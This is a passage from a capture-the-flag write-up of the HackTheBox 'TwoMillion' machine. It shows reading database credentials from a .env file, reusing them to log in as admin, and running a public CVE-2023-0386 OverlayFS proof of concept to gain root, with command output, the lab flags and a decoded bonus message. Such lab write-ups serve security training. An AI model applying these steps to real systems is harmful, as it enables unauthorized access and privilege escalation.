www-data@2million:~/html$   
```

### User flag
We can find one user on the system:
```
www-data@2million:~/html$ cat /etc/passwd

[...]
admin:x:1000:1000::/home/admin:/bin/bash
[...]

www-data@2million:~/html$ ls -al /home/admin/
total 32
drwxr-xr-x 4 admin admin 4096 Jun  6 10:22 .
drwxr-xr-x 3 root  root  4096 Jun  6 10:22 ..
lrwxrwxrwx 1 root  root     9 May 26 22:53 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 May 26 22:53 .bash_logout
-rw-r--r-- 1 admin admin 3771 May 26 22:53 .bashrc
drwx------ 2 admin admin 4096 Jun  6 10:22 .cache
-rw-r--r-- 1 admin admin  807 May 26 22:53 .profile
drwx------ 2 admin admin 4096 Jun  6 10:22 .ssh
-rw-r----- 1 root  admin   33 Sep 20 15:51 user.txt
www-data@2million:~/html$ id admin
uid=1000(admin) gid=1000(admin) groups=1000(admin)
www-data@2million:~/html$ 
```
But we can't access the flag.

So the assumption is now to take a look into the database of the HackTheBox platform for some credentials.
```
www-data@2million:~/html$ cat Database.php 
<?php

class Database 
{
    private $host;
    private $user;
    private $pass;
    private $dbName;

    private static $database = null;
    
    private $mysql;

    public function __construct($host, $user, $pass, $dbName)
    {
        $this->host     = $host;
        $this->user     = $user;
        $this->pass     = $pass;
        $this->dbName   = $dbName;

        self::$database = $this;
    }

[...]


www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
www-data@2million:~/html$ 
```
And we found a password for the admin user. It is the password of the database, but let's try to just _su_ into the user with the password:
```
www-data@2million:~/html$ su admin
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:/var/www/html$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
admin@2million:/var/www/html$ 
```
And we were successful.

Let's get the user flag:
```
admin@2million:~$ ls -al 
total 32
drwxr-xr-x 4 admin admin 4096 Jun  6 10:22 .
drwxr-xr-x 3 root  root  4096 Jun  6 10:22 ..
lrwxrwxrwx 1 root  root     9 May 26 22:53 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 May 26 22:53 .bash_logout
-rw-r--r-- 1 admin admin 3771 May 26 22:53 .bashrc
drwx------ 2 admin admin 4096 Jun  6 10:22 .cache
-rw-r--r-- 1 admin admin  807 May 26 22:53 .profile
drwx------ 2 admin admin 4096 Jun  6 10:22 .ssh
-rw-r----- 1 root  admin   33 Sep 20 15:51 user.txt
admin@2million:~$ cat user.txt 
f13a2c2b2554fc24da7d7a82ca066a30
admin@2million:~$ 
```

### Privilege Escalation
The next step is to own the machine and get the root flag. To do so we try to escalate our privileges. 

To get a better shell, I logged in to the admin user via ssh. From another machine I learned that the welcome message can also have some useful information:
```
┌──(kali㉿kali)-[~]
└─$ ssh admin@2million.htb
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

[...]

You have mail.
Last login: Tue Jun  6 12:43:11 2023 from 10.10.14.6
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ 
```

We can also find the mail with an enumeration to get all user files like this:
```
admin@2million:~$ find / -user admin 2>/dev/null | grep  -v '^/run\|^/proc\|^/sys'
/home/admin
/home/admin/.cache
/home/admin/.cache/motd.legal-displayed
/home/admin/.ssh
/home/admin/.profile
/home/admin/.bash_logout
/home/admin/.bashrc
/var/mail/admin
/dev/pts/0
admin@2million:~$ 
```

Reading out the mail show the following message:
```
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
admin@2million:~$ 
```

If we search for those keywords we find the CVE-2023-0386. Since this CVE is pretty up to date, it won't be found by tool like Linux Exploit Suggester or LinPEAS.

From https://access.redhat.com/security/cve/cve-2023-0386 :

_A flaw was found in the Linux kernel, where unauthorized access to the execution of the setuid file with capabilities was found in the Linux kernel’s OverlayFS subsystem in how a user copies a capable file from a nosuid mount into another mount. This uid mapping bug allows a local user to escalate their privileges on the system._

More detailed information on the CVE can be found here: https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/

According to https://ubuntu.com/security/CVE-2023-0386 the current system is vulnerable:
```
admin@2million:~$ uname -r
5.15.70-051570-generic
admin@2million:~$ cat /etc/*rel*
cat: /etc/laurel: Is a directory
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=22.04
DISTRIB_CODENAME=jammy
DISTRIB_DESCRIPTION="Ubuntu 22.04.2 LTS"
PRETTY_NAME="Ubuntu 22.04.2 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.2 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
admin@2million:~$ 
```

https://github.com/sxlmnwb/CVE-2023-0386/tree/master gives a pretty simple PoC for this CVE. So after we copied it to the system, we can successfully become root:
```
admin@2million:/tmp/CVE-2023-0386$ ls -al 
total 44
drwxr-xr-x  5 admin admin 4096 Sep 20 16:03 .
drwxrwxrwt 16 root  root  4096 Sep 20 16:06 ..
-rw-r--r--  1 admin admin 3093 Sep 20 16:03 exp.c
-rw-r--r--  1 admin admin 5616 Sep 20 16:03 fuse.c
-rw-r--r--  1 admin admin  549 Sep 20 16:03 getshell.c
drwxr-xr-x  8 admin admin 4096 Sep 20 16:03 .git
-rw-r--r--  1 admin admin  150 Sep 20 16:03 Makefile
drwxr-xr-x  2 admin admin 4096 Sep 20 16:03 ovlcap
-rw-r--r--  1 admin admin  180 Sep 20 16:03 README.md
drwxr-xr-x  2 admin admin 4096 Sep 20 16:03 test
admin@2million:/tmp/CVE-2023-0386$ make all

[...]

admin@2million:/tmp/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601


```
```
admin@2million:/tmp/CVE-2023-0386$ ls -al 
total 1456
drwxr-xr-x  5 admin admin    4096 Sep 20 16:06 .
drwxrwxrwt 16 root  root     4096 Sep 20 16:06 ..
-rwxrwxr-x  1 admin admin   17160 Sep 20 16:06 exp
-rw-r--r--  1 admin admin    3093 Sep 20 16:03 exp.c
-rwxrwxr-x  1 admin admin 1407736 Sep 20 16:06 fuse
-rw-r--r--  1 admin admin    5616 Sep 20 16:03 fuse.c
-rwxrwxr-x  1 admin admin   16096 Sep 20 16:06 gc
-rw-r--r--  1 admin admin     549 Sep 20 16:03 getshell.c
drwxr-xr-x  8 admin admin    4096 Sep 20 16:03 .git
-rw-r--r--  1 admin admin     150 Sep 20 16:03 Makefile
drwxr-xr-x  3 admin admin    4096 Sep 20 16:06 ovlcap
-rw-r--r--  1 admin admin     180 Sep 20 16:03 README.md
drwxr-xr-x  2 admin admin    4096 Sep 20 16:03 test
admin@2million:/tmp/CVE-2023-0386$ ./exp 
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Sep 20 16:07 .
drwxr-xr-x 6 root   root     4096 Sep 20 16:07 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
root@2million:/tmp/CVE-2023-0386# 

```

### Root flag
As root user we can now grab the root flag:
```
root@2million:/tmp/CVE-2023-0386# cd /root/
root@2million:/root# ls -al 
total 48
drwx------  8 root root 4096 Jun  7 16:21 .
drwxr-xr-x 19 root root 4096 Jun  6 10:22 ..
lrwxrwxrwx  1 root root    9 Apr 27 16:10 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Jun  6 10:22 .cache
drwxr-xr-x  3 root root 4096 Jun  6 10:22 .cleanup
drwx------  4 root root 4096 Jun  6 10:22 .gnupg
drwxr-xr-x  3 root root 4096 Jun  6 10:22 .local
lrwxrwxrwx  1 root root    9 May 26 22:55 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Sep 20 15:51 root.txt
drwx------  3 root root 4096 Jun  6 10:22 snap
drwx------  2 root root 4096 Jun  6 10:22 .ssh
-rw-r--r--  1 root root 3767 Jun  6 12:43 thank_you.json
root@2million:/root# cat root.txt 
df2d9d7452ba0fcf1725474f4ae0cb5d
root@2million:/root# cat thank_you.json 
```

And the machine is solved.

### Bonus flag
In the root folder is also a file named `thank_you.json`:
```
root@2million:/root# cat thank_you.json 
{"encoding": "url", "data": "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D"}
root@2million:/root# 
```

Let's handle this as kinda bonus flag. So decrypt the data with URL encoding gives the following data:
```
{"encoding": "hex", "data": "7b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d"}
```

Decode this with hex encoding:
```
{"encryption": "xor", "encrpytion_key": "HackTheBox", "encoding": "base64", "data": "DAQCGXQgBCEELCAEIQQsSCYtAhU9DwofLURvSDgdaAARDnQcDTAGFCQEB0sgB0UjARYnFA0IMUgEYgIXJQQNHzsdFmICESQEEB87BgBiBhZoDhYZdAIKNx0WLRhDHzsPADYHHTpPQzw9HA1iBhUlBA0YMUgPLRZYKQ8HSzMaBDYGDD0FBkd0HwBiDB0kBAEZNRwAYhsQLUECCDwBADQKFS0PF0s7DkUwChkrCQoFM0hXYgIRJA0KBDpIFycCGToKAgk4DUU3HB06EkJLAAAMMU8RJgIRDjABBy4KWC4EAh90Hwo3AxxoDwwfdAAENApYKgQGBXQYCjEcESoNBksjAREqAA08QQYKNwBFIwEcaAQVDiYRRS0BHWgOBUstBxBsZXIOEwwGdBwNJ08OLRMaSzYNAisBFiEPBEd0IAQhBCwgBCEELEgNIxxYKgQGBXQKECsDDGgUEwQ6SBEqClgqBA8CMQ5FNgcZPEEIBTsfCScLHy1BEAM1GgwsCFRoAgwHOAkHLR0ZPAgMBXhIBCwLWCAADQ8nRQosTx0wEQYZPQ0LIQpYKRMGSzIdCyYOFS0PFwo4SBEtTwgtExAEOgkJYg4WLEETGTsOADEcEScPAgd0DxctGAwgT0M/Ow8ANgcdOk1DHDFIDSMZHWgHDBggDRcnC1gpD0MOOh4MMAAWJQQNH3QfDScdHWgIDQU7HgQ2BhcmQRcDJgETJxxYKQ8HSycDDC4DC2gAEQ50AAosChxmQSYKNwBFIQcZJA0GBTMNRSEAFTgNBh8xDEliChkrCUMGNQsNKwEdaAIMBSUdADAKHGRBAgUwSAA0CgoxQRAAPQQJYgMdKRMNDjBIDSMcWCsODR8mAQc3Gx0sQRcEdBwNJ08bJw0PDjccDDQKWCEPFw44BAwlChYrBEMfPAkRYgkNLQ0QSyAADDFPDiEDEQo6HEUhABUlFA0CIBFLSGUsJ0EGCjcARSMBHGgEFQ4mEUUvChUqBBFLOw5FNgcdaCkCCD88DSctFzBBAAQ5BRAsBgwxTUMfPAkLKU8BJxRDDTsaRSAKESYGQwp0GAQwG1gnB0MfPAEWYgYWKxMGDz0KCSdPEicUEQUxEUtiNhc9E0MIOwYRMAYaPRUKBDobRSoODi1BEAM1GAAmTwwgBEMdMRocYgkZKhMKCHQHA2IADTpBEwc1HAMtHRVoAA0PdAELMR8ROgQHSyEbRTYAWCsODR89BhAjAxQxQQoFOgcTIxsdaAAND3QNEy0DDi1PQzwxSAQwClghDA4OOhsALhZYOBMMHjBICiRPDyAAF0sjDUUqDg4tQQIINwcIMgMROwkGD3QcCiUKDCAEEUd0CQsmTw8tQQYKMw0XLhZYKQ8XAjcBFSMbHWgVCw50Cwo3AQwkBBAYdAUMLgoLPA4NDidIHCcbWDwOQwg7BQBsZXIABBEOcxtFNgBYPAkGSzoNHTZPGyAAEx8xGkliGBAtEwZLIw1FNQYUJEEABDocDCwaHWgVDEskHRYqTwwgBEMJOx0LJg4KIQQQSzsORSEWGi0TEA43HRcrGwFkQQoFJxgMMApYPAkGSzoNHTZPHy0PBhk1HAwtAVgnB0MOIAAMIQ4UaAkCCD8NFzFDWCkPB0s3GgAjGx1oAEMcOxoJJk8PIAQRDnQDCy0YFC0FBA50ARZiDhsrBBAYPQoJJ08MJ0ECBzhGb0g4ETwJQw8xDRUnHAxoBhEKIAERNwsdZGtpPzwNRQoOGyM1Cw4WBx1iOx0pDA=="}
```

And finally decode this data with Base64 and XOR using key 'HackTheBox':
```
Dear HackTheBox Community,

We are thrilled to announce a momentous milestone in our journey together. With immense joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users! This incredible feat would not have been possible without each and every one of you.

From the very beginning, HackTheBox has been built upon the belief that knowledge sharing, collaboration, and hands-on experience are fundamental to personal and professional growth. Together, we have fostered an environment where innovation thrives and skills are honed. Each challenge completed, each machine conquered, and every skill learned has contributed to the collective intelligence that fuels this vibrant community.

To each and every member of the HackTheBox community, thank you for being a part of this incredible journey. Your contributions have shaped the very fabric of our platform and inspired us to continually innovate and evolve. We are immensely proud of what we have accomplished together, and we eagerly anticipate the countless milestones yet to come.

Here's to the next chapter, where we will continue to push the boundaries of cybersecurity, inspire the next generation of ethical hackers, and create a world where knowledge is accessible to all.

With deepest gratitude,

The HackTheBox Team
```

Nice!